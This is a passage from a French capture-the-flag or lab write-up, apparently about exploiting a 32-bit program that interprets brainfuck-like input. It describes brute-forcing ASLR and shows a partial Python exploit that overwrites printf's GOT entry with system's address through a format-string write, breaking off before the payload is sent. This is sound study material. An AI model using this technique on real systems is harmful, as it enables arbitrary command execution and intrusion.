 Pour me faire une idée du temps que le brute force de l'*ASLR* prendrait j'ai créé un simple programme C qui fait un `printf("%p", system)`.  

Par-dessus j'ai créé un script Python qui lance le programme en boucle et compte le nombre de lancements effectués avant d'obtenir une adresse déjà affichée.  

Et le résultat est plus que positif : en moyenne une vingtaine de tentatives suffit à retomber sur une précédente adresse.  

Pourquoi c'est aussi simple ? Principalement parce que le système est un 32 bits et que la VM n'a que 512 Mo de RAM ce qui réduit les possibilités de randomisation (l'espace d'adressage est suffisamment petit).  

Par conséquent l'exploit suivant effectue simplement une boucle en utilisant une adresse pour `system` obtenue lors de l'un des essais (`0xb762a000`).  

Le payload effectue différentes commandes dont la dernière est la création d'un fichier `/tmp/hacked.txt` ce qui nous permet de déterminer si l'exploit a fonctionné.  

```python
import subprocess
import struct
import os

ret = 0x08048683
ret = 0x08048682
printf_got = 0x08049a48
system = 0xb762a000

def bf_print(string):
        l = len(string)
        # ask for the string on stdin
        result = ">".join([","]*len(string)) + "#"
        return result

def bf_print_rewind(string):
        return bf_print(string) + "<" * (len(string)-1)

addresses = struct.pack("I", printf_got)
addresses += struct.pack("I", printf_got + 1)
addresses += struct.pack("I", printf_got + 2)
addresses += struct.pack("I", printf_got + 3)

def split_addr(n):
    result = []
    n1 = n & 0xFF
    n2 = (n >> 8) & 0xFF
    n3 = (n >> 16) & 0xFF
    n4 = (n >> 24) & 0xFF
    while n1 <= 16:
        n1 += 0x100
    result.append(n1 - 16)
    while n2 <= n1:
        n2 += 0x100
    result.append(n2 - n1)
    while n3 <= n2:
        n3 += 0x100
    result.append(n3 - n2)
    while n4 <= n3:
        n4 += 0x100
    result.append(n4 - n3)
    return result

values = split_addr(system)

```
